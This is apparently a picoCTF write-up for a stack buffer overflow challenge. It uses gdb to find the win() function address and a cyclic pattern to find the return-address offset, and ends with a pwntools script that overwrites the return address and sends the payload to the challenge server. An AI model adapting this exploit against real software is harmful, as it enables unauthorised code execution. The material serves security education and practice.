

# Buffer Overflow 1
## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using `nc saturn.picoctf.net 49211`

## Solution
We have to find the offset of the return address and then overwrite it with the address of the win() function in order to get the flag.

So to get the address of the win() function we can use the following command:
```bash
# First we have to make the program executable
chmod +x vuln

# Then we can use the following command
gdb ./vuln
```

To get a look of all the functions in the program we can use the following command:
```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
```

As we can see, the address of the win() function is `0x080491f6`.

Now we have to find the offset of the EIP register. To do that we can use the following command to create a cyclic pattern:
```bash
padding = cyclic(64)
print(padding)

# Output:
# aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```
This pattern is then saved in a file called `pattern.txt`.

Back inside the gdb we can use the following command to send the cyclic pattern to the program:
```bash
(gdb) r < pattern.txt
```


As we can see, the EIP register is overwritten with `0x6161616c` which is the address of the `laaa` in the cyclic pattern.

To exploit this vulnerability we can use the following script to create the payload:
```python
from pwn import *

# Inserting the EIP value
padding = cyclic(cyclic_find('laaa'))

# Filling the EIP with a function call address for Win(), containing the flag.
eip = pwnlib.util.packing.p32(0x080491f6)

# Creating the payload
payload = padding + eip
print(payload)

# Sending the payload to the program
r = remote('saturn.picoctf.net', 54100)
r.recvuntil(b"Please enter your string: \n")
r.sendline(payload)
r.interactive()
```

And just like that we get the flag!

